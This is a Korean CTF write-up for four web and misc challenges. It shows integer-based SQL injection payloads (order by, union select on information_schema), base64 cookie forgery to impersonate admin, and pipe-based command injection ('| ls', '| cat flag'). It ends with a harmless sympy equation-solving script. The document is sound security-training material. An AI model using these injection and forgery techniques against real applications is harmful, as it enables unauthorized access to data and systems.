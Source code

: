 고등해커 Write_Up (Young Wave)
============================
## Legendary feather
----------------------

### 문제 해결 흐름

> 문제 링크를 들어가 보니, 1 2 3 페이지가 존재했고, url 창에 no=숫자 형식으로 사이트가 바뀜
  >> 여기서 no=를 이용하여 풀어야겠다고 생각을하게 됨
   >>> 그래서 각종 or and * + 등을 넣어본 결과 and가 먹힌다는 정보 발견!

#### 위 과정을 통해 정보를 얻고, and와 sql문을 이용하여 테이블 이름, 컬럼 이름, 컬럼 개수를 알아내 문제를 해결함

### 문제 풀이

#### and 입력 가능한지 확인
![and 입력 시도](./선린의털(1).PNG)

위 사진과 같이 and가 먹히는걸 확인할 수 있다.
#### 컬럼 개수 알아 내기
![컬럼 갯수 알아내기](./선린의털(2).PNG)

위 사진과 같이 order by를 이용하여 컬럼 개수를 알아냈다.

> no=3 and 3 order by 1
> 
> no=3 and 3 order by 2
> 
> no=3 and 3 order by 3 여기서 부터 오류

따라서 컬럼 개수는 2개

![테이블 이름 알아내기](./선린의털(3).PNG)

> no=3 union select 1,info from information_schema.processlist order by 1

쿼리 출력을 이용하여 컬럼명이 contents

![컬럼 이름 알아내기](./선린의털(4).PNG)

> no=3 union select 1, group_concat(column_name) from information_schema.columns where table_name="contents" order by 1

contents 테이블에서 group_concat으로 컬럼 이름을 한줄로 묶어서 출력 
(order by로 no을 정렬해줘서 원하는 정보인 컬럼 이름 출력)

![fleg 알아내기!](./선린의털(5).PNG)

> no=3 union select 1, group_concat(content) from contents order by 1

이렇게 content에 있는 내용을 전부 합쳐 no 1에 맞춰주고 정렬하여 출력해줬다.

##### flag : Sunrin{Baby_integer_based_sql_injection}

## Basic login
--------

### 문제 해결 흐름
> sunrin 으로 로그인하여 f12로 쿠키 확인 
> > username값 확인 (base64 인코딩 되어있음)
> >> admin (base64로 인코딩)해서 username 값에 넣기

![쿠키 확인](./Basic_Login(1).PNG)

----------------------------------

개발자 도구로 username 변수 값 확인

base64 디코딩 해보니 sunrin

![flag 얻기](./Basic_Login(2).PNG)

-------------------------------

admin을 base64로 인코딩하여 username 변수에 대입

새로고침 -> clear

##### flag : Sunrin{C0okie_f0rgery_1s_e4sy}

## nslookup
--------

### 문제 해결 흐름
> 이 문제와 비슷한 문제를 본적이 있음
> > 리눅스 명령어를 활용하여 풀어야 한다는 것을 바로 느낌
> >> 리눅스 명령어를 활용해 풀기

![ls 입력](./nslookup(1).PNG)

-----------------------------

> 아무 값 | ls

or 이용해서 파일을 한번 봤는데 flag 파일 발견

![flag 확인](./nslookup(2).PNG)

> 아무 값 | cat flag 파일 이름

##### flag : Sunrin{easy_command_injection_in_the_webapp}

## Easy Math Game
--------

### 문제 해결 흐름
> nc로 접속해보니 일반적인 방정식 문제였다.
> > 퍼블을 위해 파이썬으로 방정식 풀이 코드 작성하여 문제 풀기

![문제확인](./Easy_Math_Game(1).PNG)

위와 같이 문제 확인

![코드 테스트](./Easy_Math_Game(2).PNG)

##### 계수 입력하면 풀어주는 코드

```
from sympy import Symbol, solve, Eq

for i in range(8):
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(6):
        a.append(int(input()))

    e1 = Eq(a[1]*y, -a[0]*x + a[2])
    e2 = Eq(a[4]*y, -a[3]*x + a[5])

    print(solve([e1, e2], x, y))

while True:
    x = Symbol('x')
    y = Symbol('y')

    a = []
    for i in range(3):
        a.append(int(input()))
    
    eqn = Eq(a[0]*x**2 + a[1]*x + a[2], 0)
    print(solve(eqn, x))
```

![flag 확인](./Easy_Math_Game(3).PNG)

##### flag : Sunrin{Th1s_1s_B4sic_m4th_g4m3}